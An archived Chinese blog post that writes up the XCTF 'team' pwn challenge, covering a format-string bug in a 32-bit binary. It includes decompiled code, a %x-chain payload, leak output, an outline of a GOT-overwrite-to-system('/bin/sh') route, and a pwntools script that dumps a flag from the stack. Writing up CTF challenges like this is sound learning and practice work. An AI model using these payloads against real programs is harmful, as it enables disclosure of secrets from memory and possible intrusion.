

<!--yml
category: 未分类
date: 2022-04-26 14:50:57
-->

# team [XCTF-PWN][高手进阶区]CTF writeup攻防世界题解系列28（网站配置错误，需自行配置本地环境测试）_3riC5r的博客-CSDN博客_攻防世界创建动态环境失败

> 来源：[http://blog.csdn.net/fastergohome/article/details/103834454](http://blog.csdn.net/fastergohome/article/details/103834454)

请注意：本题在攻防世界网站配置错误，请自行配置本地环境测试

最近攻防世界的题目pwn高手进阶区全部打乱了，所以现在我的题目列表是下面这样的了，搞的我的尴尬症都犯了😄

准备看看能不能把一些题目解决一下，不过其中有些题目的环境是配置错误的，我已经联系网站的工作人员，准备进QQ群。

现在我就先把team这道题目给大家说明一下。这道题目其实并不是太复杂，但是网站的工作人员没有搞清楚这道题目的出题方法，所以造成了一些问题。

先看看题目：



 现在这道题目改成了2星的难度，其实也确实就是2星的难度。

照例检查一下保护机制

```
[*] '/ctf/work/python/team/4f785d9988ce43c2b6e12ae2c49040aa'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了NX和Canary，继续看下代码

main函数：

```
int __cdecl main()
{
  char *pszTeamname; // ST18_4
  char *pszFlag; // ST1C_4

  pszTeamname = (char *)malloc(200u);
  pszFlag = (char *)malloc(100u);
  printf("Enter teamname: ");
  fflush(stdout);
  __isoc99_scanf("%200s", pszTeamname);
  printf("Enter flag: ");
  fflush(stdout);
  __isoc99_scanf("%100s", pszFlag);
  sleep(2u);
  sub_80486AD(pszTeamname, pszFlag);
  free(pszTeamname);
  free(pszFlag);
  return 0;
}
```

 子函数：

```
signed int __cdecl sub_80486AD(const char *pszTeamname, const char *pszFlag)
{
  FILE *stream; // [esp+24h] [ebp-74h]
  char s; // [esp+28h] [ebp-70h]
  unsigned int v5; // [esp+8Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  stream = fopen("flag.txt", "r");
  if ( !stream )
    return 1;
  fgets(&s, 100, stream);
  printf(pszTeamname);
  if ( !strcmp(&s, pszFlag) )
    puts(" : correct flag!");
  else
    puts(" : incorrect flag. Try again.");
  fclose(stream);
  return 0;
}
```

可以非常清楚的看到有个格式化字符串漏洞

```
printf(pszTeamname);
```

但是这个漏洞和普通的格式化字符串漏洞不一样，因为它打印的是malloc分配的地址，而不是栈上的地址。

所以我们按照之前的payload

AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.

这样的形式是打印不出来41414141的，因为AAAA保存在heap里面，而打印出来的是栈里面的内容。

> 划重点

 这个题目出问题的原因在于：服务器上没有flag.txt文件

 而本题的出题者的想法：不是要拿到服务器的shell，而是直接把flag.txt文件的flag读取，打印出来。

* * *

我在本地创建了一个flag.txt文件

```
root@mypwn:/ctf/work/python/team# ls -l
total 2280
-rwxr-xr-x 1 root root    5576 Jan  3 17:31 4f785d9988ce43c2b6e12ae2c49040aa
-rw-r--r-- 1 root root  156577 Jan  4 08:20 4f785d9988ce43c2b6e12ae2c49040aa.idb
-rw------- 1 root root 2424832 Jan  4 07:46 core
-rw-r--r-- 1 root root      16 Jan  4 01:39 flag.txt
-rw-r--r-- 1 root root    1107 Jan  4 07:56 team.py
```

看下本地的flag.txt的内容

```
root@mypwn:/ctf/work/python/team# cat flag.txt 
bbbcccdddeeefff
root@mypwn:/ctf/work/python/team# 
```

然后我们按照之前的payload

AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.

看下输出的内容：

```
[DEBUG] Received 0x1cc bytes:
    'AAAA64.82206c0.c.f7715e89.1.821f230.821f160.0.82206c0.63626262.64646363.65656564.a666666.f7707400.1.1.7fffffff.ff8d8b94.f75e10a5.ff8d8b94.ff8d8b94.ff8d8bb8.f7585c2d.f76fa5c0.f752e0e8.0.ffffffb4.f771af49.2.0.ea6a7d00.ff8d8be8.f7720e20.f76fb89c.ea6a7d00.f76fa000.0.ff8d8be8.804880c.821f160.821f230.ff8d8c8c.f75526a5.f771b9b0.0.821f160.821f230.f76fa000.f76fa000.0.f753ae81.1.ff8d8c84.ff8d8c8c.ff8d8c14.1.0.f76fa000.f771b75a.f7733000\. : incorrect flag. Try again.\n'
```

注意到上面第十个打印项开始

```
63626262.64646363.65656564.a666666
```

如果把他们从ascii码翻译成字符其实就是flag.txt的内容：bbbcccdddeeefff

> 踩坑

按照普通的格式化字符串漏洞应该是下面这样的步骤：

1.  写free的got表为main函数
2.  泄漏libc地址
3.  写free的got表为system函数
4.  写pszFlag为'/bin/sh'

但是不可以！！呵呵

* * *

我顺便做了一个python的脚本，当然只能在本地测试

```
#coding:utf8
#!python

from pwn import *

context.log_level = 'debug'
process_name = '4f785d9988ce43c2b6e12ae2c49040aa'

def get_flag(num):
	p = process([process_name], env={'LD_LIBRARY_PATH':'./'})
	# p = remote('111.198.29.45', 39479)
	# elf = ELF(process_name)

	# payload = 'A'*4+'%x.'*60
	# param_num = 10 + (0x70-0xc)/4
	param_num = num
	payload = '%'+str(param_num)+'$p'
	p.sendlineafter('Enter teamname: ', payload)
	p.sendlineafter('Enter flag: ', 'B'*3)
	data = p.recvuntil(' :')[2:-2]

	data = data.rjust(8, '0').decode('hex')[::-1]
	log.info("data => %s", data)
	p.close()
	return data

flag = ''
try:
	for x in xrange(10,30):
		flag += get_flag(x)
		if ('\n' in flag) or ('\x00' in flag):
			break;
except Exception as e:
	log.info("flag => %s", flag)

print(flag) 
```